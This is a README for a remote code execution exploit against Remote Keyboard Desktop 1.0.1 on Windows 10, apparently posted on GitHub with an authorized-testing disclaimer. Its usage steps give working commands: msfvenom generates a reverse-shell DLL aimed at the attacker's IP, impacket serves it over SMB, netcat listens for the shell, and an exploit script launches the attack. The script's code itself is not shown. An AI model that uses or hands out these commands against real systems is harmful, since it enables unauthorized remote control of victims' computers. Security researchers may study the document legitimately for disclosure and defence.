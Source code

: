 # Remote Keyboard Desktop 1.0.1 - RCE Exploit

**Author:** Chokri Hammedi  
**Tested on:** Windows 10 Pro (19045)  
**Version:** 1.0.1  
**Date:** May 17, 2025


## Usage

1. Generate DLL payload:
   `msfvenom -p windows/shell_reverse_tcp LHOST=<your_ip> LPORT=8080 -f dll > shell.dll`

2. Host the payload:
   `impacket-smbserver SHARE . -smb2support`

3. Start listener:
   `nc -lnvp 8080`

4. Run the exploit:
   `python3 exploit.py`

![image](https://github.com/user-attachments/assets/72ffa7ea-3513-4762-ad28-60081d4bd325)

![image](https://github.com/user-attachments/assets/e34148f7-9bfd-40dd-9414-e027e1374457)


## Legal

For authorized testing only. Do not use without explicit permission. Unauthorized use may violate laws.

GitHub: [github.com/blue0x1](https://github.com/blue0x1)
